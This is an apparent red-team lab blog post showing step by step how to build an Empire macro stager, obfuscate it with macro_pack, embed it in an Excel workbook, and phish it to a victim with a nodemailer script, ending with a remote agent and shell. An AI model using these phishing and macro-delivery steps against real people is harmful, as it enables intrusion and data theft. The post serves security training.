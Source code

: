 ```yaml
---
layout: post
title: Red Teaming - Macros & Phishing
date: 2021-11-04
image: /assets/img/redteam1/1.png
categories: [malware, phishing, nodejs, gmail, starkiller, macros, macropack]
---
```


{% if page.image %}
<!-- I did! Select the "large image" card type, and supply the image path -->
<meta name="twitter:card"  content="summary_large_image">
<meta name="twitter:image" content="{{ site.url }}{{ page.image }}">
{% else %}
<!-- Nope! Select the "summary" card type, supplying the site's title image -->
<meta name="twitter:card"  content="summary">
<meta name="twitter:image" content="{{ site.title_image }}">
{% endif %}

## Intro

***Only for educational purposes.***
***I am not responsible for any illegal use.***

## Kali


#### Empire

```bash
sudo powershell-empire server
```

![image](/assets/img/redteam1/1.png)

#### StarKiller

```
Default creds -> empireadmin:password123
```

- View Listener

![image](/assets/img/redteam1/2.png)

- Create Stager 

```
windows/macro
```

![image](/assets/img/redteam1/3.png)

- Copy the Macro 

![image](/assets/img/redteam1/4.png)

- Start C# Empire Server

![image](/assets/img/redteam1/5.png)

## Windows

- paste the macro stager to the windows vm
- macro.vba

![image](/assets/img/redteam1/6.png)

#### Macro Pack

Download Here : [macro_pack](https://github.com/sevagas/macro_pack/releases/)

```powershell
.\macro_pack.exe -f C:\Users\dmtrs\Documents\macro.vba -o -G C:\Users\dmtrs\Documents\obs_macro.vba
```

![image](/assets/img/redteam1/7.png)

- the new obfuscated vba

![image](/assets/img/redteam1/8.png)

## Malicious Excel (Manually)

- Create a new blank excel

- Developer -> macros

![image](/assets/img/redteam1/9.png)

![image](/assets/img/redteam1/10.png)

![image](/assets/img/redteam1/11.png)

- Replace the empty function with the obs_macro's contents

![image](/assets/img/redteam1/12.png)

- Save it as xlsm

![image](/assets/img/redteam1/13.png)


###### Next Tasks

- Copy the Company.xlsm to our kali
- Send via email the xlsm using the nodejs nodemailer 

## Kali

- Make sure that the attacker's email has got the lesssecureapps enabled 

- https://myaccount.google.com/lesssecureapps

- filename app.js

```bash
node app.js
```

```javascript
var nodemailer = require('nodemailer');

var mail = nodemailer.createTransport({
    service: 'gmail',
    auth: {
		//your gmail credentials
        user: 'evil.sender@example.com',
        pass: 'simpleExamplePassword'
    }
});

var mailOptions = {
    from: 'evil.sender@example.com', //your evil gmail
    to: 'victim@example.com', // victims gmail
    subject: 'Confidential Document',
    text: 'Please do not share the attached xls',
   
    attachments: [

        {   // file on disk as an attachment
            filename: 'Company.xlsm',
            path: 'Company.xlsm' // stream this file
        }
    ]
    
};

mail.sendMail(mailOptions, function (error, info) {
    if (error) {
        console.log(error);
    } else {
        console.log('Email sent: ' + info.response);
    }
});
```

- Result

Email sended

![image](/assets/img/redteam1/14.png)

## Victims Emails

![image](/assets/img/redteam1/15.png)

- I send it to my self but if you send it to other account, google will notify them that maybe is a phishing email and it will send it to spam

![image](/assets/img/redteam1/16.png)

## Victim Computer

***Security Measures are Disabled***

- Download the file 
- Enable Editing

![image](/assets/img/redteam1/17.png)

- Enable Content

![image](/assets/img/redteam1/18.png)

- Run Macro

![image](/assets/img/redteam1/19.png)

## Agent Created (Kali)

![image](/assets/img/redteam1/20.png)

- File Browser

![image](/assets/img/redteam1/21.png)

- Interact /  Shell Command

![image](/assets/img/redteam1/22.png)

## Virus Total

![image](/assets/img/redteam1/23.png)

## Conclusion

Obviously we could use and combine more obfuscation techniques with better performance. 

Additionally we could not send the file directly but a link for the user to download the file. 

Finally, with the use of various tools such as LuckyStrike we could not put the user in the process of running macros. 

This was a very simple example and I presented it for educational purposes.


***Only for educational purposes.***
***I am not responsible for any illegal use.***





